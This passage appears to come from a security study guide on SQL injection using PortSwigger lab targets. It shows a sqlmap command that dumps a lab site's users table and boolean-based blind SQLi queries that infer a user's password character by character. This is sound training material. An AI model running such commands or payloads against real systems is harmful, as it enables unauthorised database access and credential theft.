 {% code overflow="wrap" %}
```bash
sqlmap.py -u "https://0a7d006003157b9a803eda4300a600fd.web-security-academy.net/filter?category=Pets" --batch -v 0 -T users --dump
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_sqli_3.png" alt=""><figcaption><p>Figure 3: Using <code>sqlmap</code> to exfiltrate data from the <code>users</code> table.</p></figcaption></figure>

### Blind (Boolean-based)

_The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._

{% code overflow="wrap" %}
```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```
{% endcode %}

Burp's Active Scan identifies a potential SQLi flaw (Figure 4).
